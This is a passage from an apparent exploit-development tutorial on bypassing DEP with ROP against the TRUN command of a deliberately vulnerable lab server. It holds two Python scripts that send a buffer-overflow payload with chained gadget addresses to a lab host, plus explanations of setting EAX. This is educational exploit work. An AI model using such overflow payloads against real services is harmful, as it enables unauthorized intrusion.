 ``` python
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

Check it:

<div class="imgblock">

![POP EAX](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/popeax2_has6yi.gif)

</div>

We were able to make `EAX = 0xdeadbeee` using `ROP`. Now, the final step
is to find an `inc eax` pointer to make `EAX = 0xdeadbeef`.

<div class="imgblock">

![INC EAX](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330678/blog/bypassing-dep/inceax_zeq83l.webp)

</div>

We found one at `00402139`. As this is the last instruction of our
shellcode, the NULL byte won’t affect the exploit. Let’s update the
code:

``` python
#!/usr/bin/env python3
#
# Bypass DEP

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # 625011B4   .  58                    POP EAX
    # 625011B5   .  C3                    RETN
    struct.pack('<L', 0x625011B4) +
    # Value that will be retrieved by POP EAX
    struct.pack('<L', 0xdeadbeee) +
    # 00402139   .  40                    INC EAX
    struct.pack('<L', 0x00402139) +
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```
